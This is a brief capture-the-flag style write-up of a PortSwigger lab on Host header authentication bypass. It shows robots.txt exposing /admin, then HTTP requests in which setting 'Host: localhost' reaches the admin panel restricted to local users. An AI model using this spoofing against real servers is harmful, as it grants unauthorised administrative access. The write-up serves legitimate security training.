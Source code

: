 # [Lab: Host header authentication bypass](https://portswigger.net/web-security/host-header/exploiting/lab-host-header-authentication-bypass)

## Lab

This lab makes an assumption about the privilege level of the user based on the HTTP Host header.

To solve the lab, access the admin panel and delete Carlos's account.

## Detect

admin end point:

```text
robots.txt

User-agent: *
Disallow: /admin
```

arbitrary host => default response

```http
GET /admin HTTP/1.1
Host: hacked

HTTP/1.1 401 Unauthorized

Admin interface only available to local users
```

## Analysis

`/admin` end point is restricted to local users only

## Solutions

use `Host: localhost` to bypass:

```http
GET /admin HTTP/1.1
Host: localhost

HTTP/1.1 200 OK
```
